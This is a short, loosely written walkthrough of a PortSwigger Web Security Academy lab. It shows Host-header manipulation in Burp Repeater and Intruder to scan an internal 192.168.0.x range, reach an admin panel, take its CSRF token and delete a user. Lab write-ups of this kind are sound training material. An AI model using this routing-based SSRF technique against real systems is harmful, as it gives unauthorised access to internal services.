










# SSRF via flawed request parsing

## This lab is vulnerable to routing-based [SSRF](https://portswigger.net/web-security/ssrf) due to its flawed parsing of the request's intended host. You can exploit this to access an insecure intranet admin panel located at an internal IP address.

## To solve the lab, access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

---

### step 1

send Homepage into repeter



### step2

change host url
eg. change net to com



### step3

add GET request `https://0ac6008603da820a815ce42800d200c5.web-security-academy.net/`



### step4

add host from burp collaborator



### step5

send ### step4 to intruder
add host `192.168.0.0`
payload number
0 to 255 **\_\_\_\_**

### step 1

start attack





### step6

add
host: `192.168.0.12` is /admin response



### step7

from ### step6 right click request in browser current session
client error



### step8

from ### step6
in response you will see

```html
                   </header>
                    <form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>

```



### step9

add csrf token and user name into get request
`csrf=g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc&username=carlos `
_GET https://0ac6008603da820a815ce42800d200c5.web-security-academy.net/admin/delete?&csrf=g1WAHTPf0JSymLWkKMLNxxwbN3lo99uc&username=carlos HTTP/2_
send request lab solved


